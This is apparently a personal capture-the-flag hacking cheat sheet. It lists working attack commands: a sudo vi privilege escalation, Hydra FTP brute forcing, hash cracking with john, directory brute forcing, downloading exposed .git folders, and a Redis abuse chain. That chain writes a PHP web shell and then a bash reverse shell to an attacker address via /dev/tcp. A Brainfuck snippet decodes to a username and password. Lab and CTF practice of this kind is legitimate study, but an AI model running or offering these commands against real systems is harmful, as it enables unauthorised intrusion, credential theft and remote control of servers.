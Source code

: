 # Vi editor and sudo vulnerability

- Type:
````shell
sudo -u#-1 /usr/bin/vi file
````
- Then type on the vi finder menu: `!/bin/sh`

# Brainfuck coding language
- An example:
````brainfuck
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

## Equivalent to: 
User: eli
Password: DSpDiM1wAEwid
````
- Decoder/Encoder here: https://www.dcode.fr/brainfuck-language

# Hydra by ftp
````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

# Dirb basic command
````shell
dirb http://10.10.233.35/ /usr/share/wordlists/dirb/common.txt 
````

# Gobuster basic command
````shell
gobuster dir -u http://10.10.70.124/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 60
````

# Tac for print and read files
- Use the tool tac for printing files when cat, vi, vim... are blocked or not permitted:
````shell
tac /home/file.txt
````

# Import a .asc key
- Once you get the key:
````shell
gpg --import key.asc

# If you don't have the creds, you can brute force it using gpg2john
gpg2john key.asc > hash.txt
# Then you crack it with john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# Now you do the import step, introduce the creds and after that do the decrypt step
gpg --decrypt credential.pgp
````

# Python3 remote http server
- Initiate it: `python3 -m http.server 8080`
- The on the target machine:
````shell
wget http://<attack-ip>:8080/file
````

# Login without password to FTP
- User:  `anonymous`

# Investigate image metadata (Stego)
- Use command `file image.png`
- Use command `exiftool image.png`
- Use command `xxd image.png`
- Use command `strings image.png`
- Use tool binwalk to search binary images for embedded files and executable code: `binwalk image.png`
	- To extract the file: `binwalk -e image.png`
- Use command: `steghide extract -sf image.png`

# Crack zip files
- First get the hash: `zip2john file.zip > hash`
- Then use command: `john --wordlist=/path/to/wordlist hash`

# Extract from cli
- Use command: `7z e file.zip`

# How to deal with a /.git/?
- Download the full repository: `wget --mirror http://<ip-target>/.git/`
- Once downloaded follow this steps:
	- Look at the commits: `git log --oneline`
	- Go down the history: `git checkout <commit> --force`
	- Now inspect the commit

# How to deal with a Redis database?
- Download redis-tools: `sudo apt install redis-tools`
- Use the following command to gather info: `info`
- Introduce a php RCE: 

````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redis.php
OK
10.10.60.159:6379> set test "<?php phpinfo(); ?>"
OK
10.10.60.159:6379> save
OK
````
- Now in Firefox, navigate to `<target-ip>/redis.php`
- If it is shown the phpinfo() file, the try to run this to get a shell:

````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redisshell.php
OK
10.10.60.159:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.60.159:6379> save
OK
````

- Now on the web-nav put something like this: `view-source:http://10.10.60.159/redisshell.php?cmd=%20cat%20/etc/passwd`
- Now set up a listener and create a simple reverse php shell:
````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redisshell.php
OK
10.10.60.159:6379> set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/<attck-ip>/<port> 0>&1'\"); ?>"
OK
10.10.60.159:6379> save
OK
````

# Piet Esoteric Language
- This language is presented in images like this:
![](img/PI3T.png)
- To decode this image content just follow these steps:
	- Download Gimp: `sudo apt install gimp`
	- Open the image wit Gimp and Export it as .ppm file: `Export as > .ppm`
	- Now download the Piet interpreter: 
	````shell
	sudo su
	git clone https://github.com/gleitz/npiet.git
	cd npiet
	./configure
	make
	````
	- Execute the image with the interpreter: `./npiet /path/to/the/image.ppm`

